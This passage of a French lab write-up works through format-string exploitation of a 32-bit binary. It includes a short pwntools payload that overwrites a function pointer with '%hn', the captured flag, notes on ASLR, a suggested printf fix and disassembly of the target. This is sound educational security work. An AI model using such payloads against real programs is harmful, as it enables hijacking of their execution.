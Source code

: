 ```python
payload = "\x94\xa1\x04\x08%34315x%10$hn" 

r.sendlineafter('Input : ', payload)

r.interactive()
r.close()
```

Le test concluant en local, je rajoute `--remote --p (port perso)` à ma commande `python chal2.py`

### Question 3.4: Quel est le flag obtenu ?
`FLAG{unkIIlSDj1J4zePd83d7A1QkMWc4OhGv}`

### Question 3.5: Est-ce que le fait d’avoir ou pas l’ASLR change l’attaque ? Pourquoi ?
Non,
 car comme expliqué dans la Manipulation 3.1 l'adresse de function est dans la BSS et l'ASLR ne va pas faire varier cette valeur.

## 4 Ecriture (2)
But : Faire en sorte d’exécuter la fonction win et récupérer le flag.
Compilation : Le programme est compilé avec gcc -Wno-format-security -no-pie -fno-PIC -m32 -O0.
Vous avez le code source de ce programme ainsi que le binaire.


### Question 4.1: Est-ce que l’ASLR est activé en remote ?
Oui

### Manipulation 4.1: Affichez deux fois de suite l’adresse du pointeur sur fonction. Que remarquez-vous ?
L'adresse varie car la function se trouve cette fois dans la stack et non plus dans BSS

### Question 4.2: Listez toutes les vulnérabilités du binaire. Comment peut-on les corriger ?
Nous avons 2 failles de par la manière d'afficher les fonctions les valeurs dans les printf().
Ligne 33 et 38 il faudrait modifier l'affichage en utilisant printf("%s", maVar) ce qui indique que maVar doit être lue comme un string et évitera l'exécution des %x ou autre.

### Question 4.3: Comment pouvez-vous récupérer l’adresse du pointeur sur fonction en remote ?
On connait la manière dont les éléments sont empilés dans la stack et on sait que buffer sera au dessus de function.
```python
void (*function)();
char buffer[SEED];
```
On sait en grâce à la commande disassemble main que notre function se trouve dans [ebp-0x150]
```sh
0x080486f6 <+199>:   mov    eax,DWORD PTR [ebp-0x150]
0x080486fc <+205>:   call   eax
```
